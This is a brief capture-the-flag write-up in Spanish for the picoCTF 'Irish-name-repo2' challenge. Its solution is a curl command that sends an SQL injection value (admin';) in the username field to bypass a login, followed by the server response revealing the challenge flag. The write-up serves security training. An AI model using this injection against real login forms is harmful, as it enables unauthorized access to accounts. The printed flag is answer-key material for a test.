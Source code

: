 # Irish-name-repo2

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Pistas
The password is being filtered.

## Solucion 
```bash
curl -s  https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=password" 

<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>  
```

## Notas Adicionales

## Referencias